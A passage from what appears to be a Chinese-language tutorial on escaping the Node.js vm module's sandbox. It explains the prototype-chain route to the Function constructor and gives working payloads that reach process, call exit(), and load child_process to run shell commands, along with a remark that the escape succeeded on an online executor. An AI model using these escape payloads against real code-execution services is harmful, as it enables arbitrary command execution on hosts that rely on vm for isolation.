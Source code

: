 

以上是通过原型链方式完成逃逸，如果将上下文对象的原型链设置为 null 会怎么做

```javascript
const vm = require("vm");
const ctx = Object.create(null);

ctx.data = {};

vm.runInNewContext(
	'this.data.constructor.constructor("return process")().exit()',
	ctx
);
console.log("Never gets executed.");
```

由于 JS 里所有对象的原型链都会指向 Object.prototype，且 Object.prototype 和 Function 之间是相互指向的，所有对象通过原型链都能拿到 Function，最终完成沙盒逃逸并执行代码。

逃逸后代码可以执行如下代码拿到 require，从而并加载其他模块功能

```javascript
const vm = require("vm");

const ctx = {
	console,
};

vm.runInNewContext(
	`
    var exec = this.constructor.constructor;
    var require = exec('return process.mainModule.constructor._load')();
    console.log(require('child_process').execSync("ls").toString());
`,
	ctx
);
```

看下网页端在线执行结果，完美嘿嘿

![](pic/3.png)
